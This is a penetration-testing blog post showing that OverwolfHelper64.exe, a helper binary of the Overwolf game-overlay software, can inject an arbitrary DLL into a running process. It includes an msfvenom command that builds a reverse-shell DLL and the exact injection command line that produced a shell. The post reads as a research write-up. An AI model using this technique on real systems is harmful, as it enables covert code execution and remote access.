 ```yaml
---

layout: post

title: OverWolfHelperx64 - DLL Injection LOLBAS

gh-badge:

- star

- fork

- follow

tags:

- Windows

- Cyber Security

- Penetration Testing

comments: true

published: true

date: '2021-09-18'

---
```


Hello guys, gals, and non binary pals, today we're going to be looking at a program called OverWolf. Overwolf is a piece of software backed by Curse Forge, Intel, Logitech, Twitch, Ubisoft and a bunch of other companies that is designed to add extensions (or Mods) onto games. Some examples might include an overlay that shows your health or ammo count in a different style. But yeah -- you get the gist of it. It's a pretty interesting piece of software to analyze.

We're going to be using a pretty standard setup of [ProcMon](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon) from SysInternals and [ProcessHacker](https://processhacker.sourceforge.io/downloads.php).

Overwolf can be downloaded from the following URL:
(https://www.overwolf.com/apps/)[https://www.overwolf.com/apps/]

It's a pretty standard install, so I'm not going to into too much detail on the install process. Just keep clicking "Next" until you see OverWolf finish installing.

### Overwolf Analysis

First we're going to open up ProcMon, and add a Process Filter -- we will be filtering on the Command Line and ensure it contains the string Overwolf. This will likely give us the best results.

![[https://blog.spookysec.net/Pasted image 20210918140933.png]](https://blog.spookysec.net/Pasted image 20210918140933.png)

Afterwards, click "Add" and "Apply". Next up, pop on open Process Hacker and use the "Search" function to specify Overwolf. I've split my screens for ease of use:

![[https://blog.spookysec.net/Pasted image 20210918141142.png]](https://blog.spookysec.net/Pasted image 20210918141142.png)

Next, we're going to launch Overwolf and see what happens.

If setup correctly, we should see a lot of new processes spawn in Process Hacker and ProcMon should see a whole bunch of new WindowsAPI functions get called as well as Programs get launched.

![[https://blog.spookysec.net/Pasted image 20210918141331.png]](https://blog.spookysec.net/Pasted image 20210918141331.png)

The Process Hacker window was fairly standard -- there was one important thing to note, the Updater spawned as NT AUTHORITY\SYSTEM. This is a very important thing to note if you're developing a Local Privilege Escalation exploit. If you capture the traffic with Wireshark and can decipher the upgrade protocol, you might be able to develop a LPE exploit. I'm not going to dig through that rabbit hole today though :).

Here, we are primarily looking for DLLs or Programs that get loaded as part of launching OverWolf. Just browsing through the running processes, one in particular stood out to me, OverWolfHelper/OverWolfHelper64.exe, it queried information on a process name "Audiodg.exe", a native windows binary. I found this particular one in ProcMon, however, it's also possible to locate it over in Process Hacker.

![[https://blog.spookysec.net/Pasted image 20210918144412.png]](https://blog.spookysec.net/Pasted image 20210918144412.png)
*Located in ProcMon*

![[https://blog.spookysec.net/Pasted image 20210918144523.png]](https://blog.spookysec.net/Pasted image 20210918144523.png)
*Located In Process Hacker*

Interestingly enough it appears like OverwolfHelper takes two arguments -- path and pid. These (to me) are some pretrty interesting arguments to take, especially when the path is pointing to a DLL.

```
"C:\Program Files (x86)\Common Files\Overwolf\0.178.0.16\OverwolfHelper64.exe" "path=C:\Program Files (x86)\Overwolf\0.178.0.16\OWExplorerLauncher.dll pid=1596"
```

Doing some basic analysis on this, we can see that the PID actually points to the parent Overwolf process. Interestingly enough, it (OWExplorerLauncher.dll) doesn't appear to be loaded. However, in OverwolfHelper.exe it does.

![[https://blog.spookysec.net/Pasted image 20210918193328.png]](https://blog.spookysec.net/Pasted image 20210918193328.png)

### Injecting a DLL

Let's try injecting a DLL with OverWolfHelper and see how it goes. On Kali, we're going to generate a DLL using MSFVenom.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=eth0 LPORT=443 -f dll -o injectme.dll
```

![[https://blog.spookysec.net/Pasted image 20210918202742.png]](https://blog.spookysec.net/Pasted image 20210918202742.png)

After transporting the binary over, we're going to run the modified command:

```
"C:\Program Files (x86)\Common Files\Overwolf\0.178.0.16\OverwolfHelper64.exe" "path=C:\Users\Administrator\Downloads\injectme.dll pid=1596"
```


![[https://blog.spookysec.net/Pasted image 20210918203111.png]](https://blog.spookysec.net/Pasted image 20210918203111.png)

And checking over in our Terminal, it appears we have gotten a shell!

![[https://blog.spookysec.net/Pasted image 20210918203200.png]](https://blog.spookysec.net/Pasted image 20210918203200.png)

To figure out what's going on behind the scenes, we can pivot back over to ProcessHacker and go over to the "Network" tab and filter for our IP Address (192.168.0.198). It appears that it indirectly calls rundll32.exe

![[https://blog.spookysec.net/Pasted image 20210918205736.png]](https://blog.spookysec.net/Pasted image 20210918205736.png)

It appears that rundll32.exe spawned a child process, cmd.exe which would likely be a fairly large indicator of malware. I've created a directory called "notmalware" in my Netcat session and CD'd into that folder

![[https://blog.spookysec.net/Pasted image 20210918210210.png]](https://blog.spookysec.net/Pasted image 20210918210210.png)

It appears that the child process is indeed our Reverse Shell.

![[https://blog.spookysec.net/Pasted image 20210918210157.png]](https://blog.spookysec.net/Pasted image 20210918210157.png)

### Conclusion

It appears that OverwolfHelper (when it loads a DLL) runs rundll32 -- interestingly, our DLL isn't mentioned as any argument.

![[https://blog.spookysec.net/Pasted image 20210918210655.png]](https://blog.spookysec.net/Pasted image 20210918210655.png)
